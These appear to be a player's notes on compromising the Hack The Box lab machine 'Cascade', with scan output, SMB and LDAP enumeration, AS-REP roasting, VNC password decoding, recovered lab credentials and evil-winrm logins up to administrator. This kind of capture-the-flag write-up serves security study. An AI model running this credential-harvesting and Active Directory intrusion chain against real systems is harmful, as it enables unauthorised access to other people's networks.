



# Summary


## about target

tip:   10.129.236.97

hostname:  Cascade

Difficulty:  Medium


## about attack

+ ldapsearch anonymous log, grep pass/pwd/cred/password
+ Online tools, cyberchef. decrypt and decode
+ Ad group recycle bin, enum deleted ad object.
+ Smb netlogon share,  could contains creds in vbs file.


**attack note**

```bash
Cascade / 10.129.236.97

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-21 15:36:09Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn?
389/tcp   filtered ldap
445/tcp   open     microsoft-ds?
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open     unknown
49155/tcp open     msrpc         Microsoft Windows RPC
49157/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open     msrpc         Microsoft Windows RPC
49173/tcp open     msrpc         Microsoft Windows RPC

---- Interesting
-- from namap heavy scan
3268:Domain: cascade.local
53:Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)

-- from crackmapexec pass-pol
Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local)

-- domain users and sid from enum4linux
domainuser.list
Domain Name: CASCADE
Domain Sid: S-1-5-21-3332504370-1206983947-1165150453

-- password, ldap anonymous
r.thompson:clk0bjVldmE=:rY4n5eva

-- smb data, Vnc install.reg, password s.smith
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
s.smith:sT333ve2


---- Enum 
-- dns, nothing
dig any @$tip cascade.local
dig axfr @$tip cascade.local

-- rpc
nothing new, same to enum4linux.

-- smb
no shares.
smbclient -L $tip  -U null
smbclient -L $tip  -U null -N
smbclient -L $tip -U ""
smbclient -L $tip -U cascguest
smbclient -L $tip -U cascguest -N
smbclient -L $tip -U cascguest -P ''
smbclient -L $tip -U cascguest -N
smbmap -H $tip -u cascguest
smbmap -H $tip -u cascguest -p ''

-- ldap

cat ldap-anonymous.log | grep -i pwd

crackmapexec smb $tip -u r.thompson -p 'rY4n5eva' --shares

-- ad
# asrepoast
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip cascade.local/ -format hashcat -outputfile asreproast.hash


-- enum r.thompson
cyberchef, convert 
echo '6bcf2a4b6e5aca0f' | xxd -r -p > smith.vncpwd


crackmapexec smb $tip -u s.smith -p 'sT333ve2' --shares

crackmapexec winrm $tip -u s.smith -p 'sT333ve2' 

---- Foothold

-- s.smith 

smbclient //$tip/Audit$ -U s.smith%sT333ve2

evil-winrm -u s.smith -p 'sT333ve2'  -i $tip

---- System
# query deleted ad object
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

# query deleted ad object, tempadmin
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *

evil-winrm -u administrator -p 'baCT3r1aN00dles' -i $tip
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```











# Foothold


# Privesc


## proof

```bash


```


